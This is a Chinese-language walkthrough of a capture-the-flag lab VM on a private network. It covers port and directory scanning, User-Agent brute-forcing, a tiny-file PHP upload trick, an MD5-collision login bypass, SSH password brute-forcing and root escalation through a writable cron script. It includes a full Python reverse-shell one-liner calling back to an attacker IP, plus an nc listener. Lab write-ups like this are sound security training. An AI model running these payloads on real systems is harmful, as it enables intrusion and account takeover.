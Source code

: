> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/9K02mYvXGN_DxOtW6xPubA)

## 加载开启镜像, 开整

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIIdmyiaznM8SEnjdaSJRs04sChFVTblUBlFsZ5gAHvtZCU3CliadOiam3EicU4QZY2xF24TmqAf32VbUg/640?wx_fmt=png)

查看本机的 IP 地址段，然后进行扫描发现主机

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIIdmyiaznM8SEnjdaSJRs04s6RpbXg6KuCYP8RFv6JZCxutJKJASf7u5FMYfvpAXW3wvZsuuYuVZFA/640?wx_fmt=png)

```
root@kali:~# nmap -p-  -A -O 192.168.195.134
```

扫描发现开放两个端口 22、80，访问 80 发现是个 demo，在网页中寻找信息

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIIdmyiaznM8SEnjdaSJRs04sB2Ls6BfLHn1Wqy7VVcs2sNyC2EtR2VkKiaMM4ict7lqTsUYnicxP9eib1Q/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIIdmyiaznM8SEnjdaSJRs04sVRFc7siag1jcljBia4bQ9ELnia1ibShBeytdn7ia04BwOv0VcY4q07bgMVg/640?wx_fmt=png)

查看源代码未发现有效的信息，查看爬虫文件

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIIdmyiaznM8SEnjdaSJRs04swQrPYtI96ibiaMrb2UnD2cSiaOLRO4icnCIQ6b3yIFu5LSezBQxrxv37LQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIIdmyiaznM8SEnjdaSJRs04sEXciavXC0nQEZS2NfxeVCRfZKP122NMKPavg6xOOpaTUsBXFgLlLwIg/640?wx_fmt=png)

先扫一波再说

使用工具 - dirsearch

```
https://github.com/maurosoria/dirsearch
```

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIIdmyiaznM8SEnjdaSJRs04sKsfH9EY4HbwgicHT9QtkAUsU3JAPlRaSicB6LPnxBabmViayvyaiclrgww/640?wx_fmt=png)

并没有什么有用的信息，发现 ua 会原封不动的展示在回显，想到之前出题人提示 rockyou，可能用字典爆破 ua 会有收获

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIIdmyiaznM8SEnjdaSJRs04swulTnibGrDiaHfCd9A8Dl5ykHTOCFL3JrCZcEAAF5z3CysxFY8wGU1uA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIIdmyiaznM8SEnjdaSJRs04sGFicYlCOvicuRzp8sIQIkU4XJ4XQmjibWQib3xqse6K6mOu0TzsMjricHFg/640?wx_fmt=png)

## 操作一：爆破

进入 /usr/share/wordlists/ 路径下 kali 自带的密码字典 rockyou.txt.gz

进行解压：

```
gzip -d rockyou.txt.gz
```

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIIdmyiaznM8SEnjdaSJRs04sdNfINvhzqE2g0KyzpMXTrJpl27Szr16RiauFT8dxr0scnpJj0Via7Y3w/640?wx_fmt=png)

只要 ua 里包括 cyberdog 就可以得到提示页面.

## 操作二：脑洞大开出奇迹

还有一种操作时发现网页隐藏了一个图片，打开后将标题输入 ua 就可得到提示！ 要我估计把头挠秃了也想不出来

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIIdmyiaznM8SEnjdaSJRs04sDuNI1xsjHzAvtwTgGG5xJcK0QibCibuxsa3NOshp1pwicVSOPXaQoUEIA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIIdmyiaznM8SEnjdaSJRs04sooyQc00E87MHvCIxyJ5oVgHs9BBEkZAb2dibr0shlPiaiania4RBDfEAWA/640?wx_fmt=png)

打开是个上传页面  

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIIdmyiaznM8SEnjdaSJRs04sV1vVYgeKPcYNZd1vwUI1dicJt5rUkdpum3OcsUMyx6ofOEmDrvsDr9Q/640?wx_fmt=png)

经过上传测试发现，可以上传任何文件，但是文件内容不能超过 8 个字符。

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIIdmyiaznM8SEnjdaSJRs04sy4iabzAuxob5bxJ46aCuicgibCSV6wLoZc0XsBC0bWBRQSBGNfs32BpaQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIIdmyiaznM8SEnjdaSJRs04sP7MiaXwS5owNNpH5vxMevDibKEmjWiaKoLJJNSaHexMibJSA5WXG6VrcXw/640?wx_fmt=png)

## 此时可以用到 php 代码格式的小技巧

**###** **1. php 代码格式**  

```
PHP代码有下列几种格式，在此推荐使用第一种格式。1、标准格式，以 <?php 开头，以 ?> 结束。例如：
<?php
echo"welcome!";
?>

2、短标签，以 <? 开头，以 ?> 结束。例如：
<?
print "Thisis a PHP example.";
?>
注：短标签的启用必须启用php.ini中的配置项short_open_tag。使用短标签输出一段文字的话，还可以使用下列简介方式：
<?="This is a PHP example."; ?>

3、脚本。例如：
<script language="php">
print "Thisis a PHP example.";
```

相当于

```
<?php echo "This is a PHP example."; ?>
```

### 2. php 执行运算符

链接：php 执行运算符

经过测试，可以执行命令，但是仅局限于 <=2 个字符的命令，如 ls、ps，发现下一步提示

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIIdmyiaznM8SEnjdaSJRs04sQVuempF3w9Zia2CSwUialWAhuVNl6OPCElaIibkq6unkUQ69PQHZREkjg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIIdmyiaznM8SEnjdaSJRs04suN9AUtC7GcMAagKK7nTBTFYS9O4j4xDTVZmQq2a7JKSyKMxxj75Lhw/640?wx_fmt=png)

发现新文件，访问测试

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIIdmyiaznM8SEnjdaSJRs04sE82te5B1kO8G3wzfbibZWrFDFXwcicm1TTYEyywmlH9XTpA1G2WwMqbg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIIdmyiaznM8SEnjdaSJRs04sSQXia9RcZkgNfia0PRfFDBU6BrcAibSBicJZcajmUvGme3ibavLttcvHkkg/640?wx_fmt=png)

扫描发现备份文件

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIIdmyiaznM8SEnjdaSJRs04s1TdOBprCe0Y2Mjr1urQaPiaRpbobrpfcDxSgjBHor1CytjYkEcThptQ/640?wx_fmt=png)

值必须相等

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIIdmyiaznM8SEnjdaSJRs04s0brqBrcvW7kehP7WC5fUKWsvJJ8ibpqHSSKff9AsKzibKBRJibV0aibGkA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIIdmyiaznM8SEnjdaSJRs04sToiaftOiawjGmMSKRl37VxGdicCJaGEHlunmkNPgb6vPP8fzicejHCaxZg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIIdmyiaznM8SEnjdaSJRs04stOadBQMDbicvWCF9nDY38kZ1CBPe6VibVW9KZlqnTaJX4Dib33dqFyG3g/640?wx_fmt=png)

有个 python 工具可以生成 N 个 MD5 相同的文件，但是此工具仅可以在 *unix 上进行运行。

```
https://github.com/thereal1024/python-md5-collision
```

```
git clone https://github.com/thereal1024/python-md5-collision.git
另外需要安装依赖才能正确运行，需要root权限和python2/3 程序
apt-get update
```

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIIdmyiaznM8SEnjdaSJRs04sNWfZrIAQIaAFAIicdytnZh5jY6rb4yBxSF6xibCj8qvOuhdPuBic4cI8w/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIIdmyiaznM8SEnjdaSJRs04soHvic1ROKu7ia5pNU2gjpnEm6p3mRlc2ywPu2QGZ1zdcpFzddtPyUQpA/640?wx_fmt=png)

**### Curl 用法之 --data-urlencode**

```
5) --data-urlencode key=value

--data-urlencode参数等同于-d，发送 POST 请求的数据体，区别在于会自动将发送的数据进行 URL
编码。
先对数据进行URL编码，再发送给HTTP服务器，即对表单中的字段值进行URL编码后再发送。为了兼容CGI，格式为“name+分隔符+content”，如下所示：

name=content，将content进行URL编码，然后提交给HTTP服务器
=content，同上，只是未给出引用的name content，同上，注意content中不能包含=和@符号
name@filename，从文件filename中读取数据（包括换行符），将读取的数据进行URL编码，然后提交给HTTP服务器
@filename，同上
```

```
root@kali:/home/tools/python-md5-collision#curl--data-urlencode 
username@out_test_000.txt--data-urlencodepassword@out_test_001.txt--data-urlencode code@out_test_002.txt--data-urlencode"remember=1&login=Login"
http://192.168.195.134/d5fa314e8577e3a7b8534a014b4dcb221de823ad/index.php-i 
-i参数打印出服务器回应的HTTP标头。
```

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIIdmyiaznM8SEnjdaSJRs04sqkav6B03q2MX8QfXIWfhDLU4GKIX7Dwy9Rc8gcOH3ZBYiblA6dMUtyg/640?wx_fmt=png)

返回的请求头中有 Session 值，需要修改 cookie 进入 admin.php ，第二天了 IP 变了

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIIdmyiaznM8SEnjdaSJRs04szMdqjLw6wABzUbobkfRyicN2eBsQfNIUI2f1gXCKpuPf2YAGcveWbIw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIIdmyiaznM8SEnjdaSJRs04s00fF4JzDhjBmuLbIqiawxTUpEkWVxdrPeicAic1zSjENrkIqyAP8s2Yvg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIIdmyiaznM8SEnjdaSJRs04s8dicOPlBibYFBRLsAP3zObBQoYyW090WWQYCgfAHTa173tHD1W0lWIgw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIIdmyiaznM8SEnjdaSJRs04siaicO59lmjeryHu7jpGByuj2ScEoKNRtG3HMIknCaCIzOicxJI5Nj3egQ/640?wx_fmt=png)

使用 python 进行反弹 shell 网站执行

```
python-c"import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('192.168.195.128',8888));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"
```

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIIdmyiaznM8SEnjdaSJRs04sD3MU7nwtwUgI4WIh69Z1cEXicYNBBiaOiaC3M0Z3QicNlLDsn6OmOlVaoA/640?wx_fmt=png)

攻击机执行：

```
nc -lvp 8888
```

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIIdmyiaznM8SEnjdaSJRs04sflHYWvO7mEVzE1NerKAF7BZMZj4sU0Xeibdh8dJicnRejQjODb6iaB8eA/640?wx_fmt=png)

Getshell 进行信息搜集。发现 /home/downfall 用户目录下存在 todo 文件，查看该目录的其他文件发现隐藏文件，但没有权限。可以对此用户进行爆破，然后查看文件

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIIdmyiaznM8SEnjdaSJRs04s9KsXSkvibKRhtxf4phHeNsK8wuuG4t3DZYWwELicc3jm5yUDZGsH5RWw/640?wx_fmt=png)

靶场提示里有线索，以 sec 开头创造字典，前期信息搜集其 ssh 端口为 22，进行爆破。  

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIIdmyiaznM8SEnjdaSJRs04suea2pZtZwA2T9TIDztGOou9b6ia2WBEws1jJZHFgXSxqMWMHg1vsQZQ/640?wx_fmt=png)

爆破成功得到密码 secretlyinlove 

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIIdmyiaznM8SEnjdaSJRs04sKbM4iaeR5f7X2Y5Gwq0g3JaPz1ddBgLMKoMP2YBsAmXJQyG3sJnalicg/640?wx_fmt=png)

登录进行信息搜集，得到提示需要取得 root 权限。

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIIdmyiaznM8SEnjdaSJRs04sJjfmc0plQrVfxRGnGNKzjTgs8xAOtEl3ic8RQCdbThwckBpUoJ3Zu3A/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIIdmyiaznM8SEnjdaSJRs04sicVaQlzqs9M5xf7P4KOOibictn5XJSD2ShN45sa8PM8GKm78icsAOF5icRg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIIdmyiaznM8SEnjdaSJRs04snK7I3w4QNeibMV5KYacN0NjGXRibV2hPeicTKkwm3wQqYnbjI4ia90lk0A/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIIdmyiaznM8SEnjdaSJRs04syq0WgtXribSlsM6zicNIAMKRBRUfU0miaQLeFSH7Gh2d5iamvraVbEoHJA/640?wx_fmt=png)

经过分析发现，文件 /lib/logs/homeless.py 所有者为 downfall，但是邮件里提到 root 用户会每隔一段时间运行此脚本。思路就是以 downfall 用户修改 /lib/logs/homeless.py 文件，饭后 root 用户会运行修改后的文件，以此反弹 shell 得到提升 root 权限。

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIIdmyiaznM8SEnjdaSJRs04s78dianC3VkQlCsMlrUzHQP0AiaIOwJLnl2Ww9eF4vCsZaNjjdJ2BUaUg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIIdmyiaznM8SEnjdaSJRs04sXTibGaHcicbuw06rDzBIC9p55djHDR3ScgVdtXX7pjxmUpRy50lIXh3A/640?wx_fmt=png)

GetShell ！

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIIdmyiaznM8SEnjdaSJRs04stzaBauQSCa4NxHicWdws1lOqXklF7Cw8evgpBdVFZjnlMkUrgNLBy8w/640?wx_fmt=png)